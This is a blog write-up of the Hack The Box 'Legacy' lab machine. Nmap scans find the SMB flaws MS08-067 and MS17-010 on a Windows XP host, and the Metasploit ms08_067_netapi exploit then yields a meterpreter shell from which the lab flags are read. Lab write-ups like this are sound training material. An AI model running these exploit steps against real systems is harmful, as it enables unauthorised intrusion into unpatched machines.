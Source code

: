 ```yaml
---                                                                                           
layout: post                                                                                  
title:  "HTB-Legacy"                                                                            
date:   2020-02-16 02:49:57 +0000                                                             
categories: HTB-Walkthrough                                                                   
---                           
```


![legacy](http://localhost:4000/sh1n0bi-dojo/assets/img/legacy.png)

Another beginner's box in HTB is Legacy, lets run nmap and see what we're dealing with...

` nmap -sCV -p- 10.10.10.4 |tee -a legacy.txt `

this scan is a bit like `-A`, it runs all the default nse scripts on the host, and looks for
service information.


{% highlight ruby %}
 Starting Nmap 7.70 ( https://nmap.org ) at 2019-11-06 13:01 GMT
Nmap scan report for 10.10.10.4
Host is up (0.12s latency).
Not shown: 65532 filtered ports
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: -4h00m00s, deviation: 1h24m50s, median: -5h00m00s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:3e:e1 (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2019-11-06T12:05:37+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
{% endhighlight %}

Ok, lets home in on the discovered ports...

{% highlight ruby %}
root@kali:~/HTB/prep/legacy# nmap -p139,445 -sSV 10.10.10.4 --script=vuln
Starting Nmap 7.70 ( https://nmap.org ) at 2019-11-06 13:17 GMT
Nmap scan report for 10.10.10.4
Host is up (0.15s latency).

PORT    STATE SERVICE      VERSION
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/

{% endhighlight %}

Looks like this target is vulnerable to the old smb ms08_067_netapi exploit, and also the infamous ms17-010 EternalBlue exploit.
In this instence we're going to try the older netapi one, we'll keep the devistating EternalBlue for another box...

In the msfconsole we can use the `info` command to ...well...get more info!

{% highlight ruby %}
msf5 exploit(windows/smb/ms08_067_netapi) > info

       Name: MS08-067 Microsoft Server Service Relative Path Stack Corruption
     Module: exploit/windows/smb/ms08_067_netapi
   Platform: Windows
       Arch: 
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Great
  Disclosed: 2008-10-28

Provided by:
  hdm <x@hdm.io>
  Brett Moore <brett.moore@insomniasec.com>
  frank2 <frank2@dc949.org>
  jduck <jduck@metasploit.com>

<--snip-->

Basic options:
  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  RHOSTS   10.10.10.4       yes       The target address range or CIDR identifier
  RPORT    445              yes       The SMB service port (TCP)
  SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)

Payload information:
  Space: 408
  Avoid: 8 characters

Description:
  This module exploits a parsing flaw in the path canonicalization 
  code of NetAPI32.dll through the Server Service. This module is 
  capable of bypassing NX on some operating systems and service packs. 
  The correct target must be used to prevent the Server Service (along 
  with a dozen others in the same process) from crashing. Windows XP 
  targets seem to handle multiple successful exploitation events, but 
  2003 targets will often crash or hang on subsequent attempts. This 
  is just the first version of this module, full support for NX bypass 
  on 2003, along with other platforms, is still in development.

References:
  https://cvedetails.com/cve/CVE-2008-4250/
  OSVDB (49243)
  https://technet.microsoft.com/en-us/library/security/MS08-067
  http://www.rapid7.com/vulndb/lookup/dcerpc-ms-netapi-netpathcanonicalize-dos


{% endhighlight %}

Use the default payload with this one, no need to use the `set payload` command.
triggering the `exploit` gives us a meterpreter shell.

{% highlight ruby %}
meterpreter > ipconfig

Interface  1
============
Name         : MS TCP Loopback interface
Hardware MAC : 00:00:00:00:00:00
MTU          : 1520
IPv4 Address : 127.0.0.1


Interface 65539
============
Name         : AMD PCNET Family PCI Ethernet Adapter - Packet Scheduler Miniport
Hardware MAC : 00:50:56:b9:3e:e1
MTU          : 1500
IPv4 Address : 10.10.10.4
IPv4 Netmask : 255.255.255.0

meterpreter > sysinfo
Computer        : LEGACY
OS              : Windows XP (Build 2600, Service Pack 3).
Architecture    : x86
System Language : en_US
Domain          : HTB
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > cat root.txt
# 99xxxxxxxxxxxxxxxxxxxxxxxxx3
{% endhighlight %}

This exploit is impressive, we already have elevated privilages, and can access both the user and Administrator(root) flags.

{% highlight ruby %}
meterpreter > dir
Listing: C:\Documents and Settings\john\desktop
===============================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  32    fil   2017-03-16 06:19:49 +0000  user.txt

meterpreter > cat user.txt
# exxxxxxxxxxxxxxxxxxxxxxxxxf
{% endhighlight %}


1. scan Target
2. identify vulnerabilities
3. execute exploit to gain access and/or system/root privilages.
4. get flags


###################################
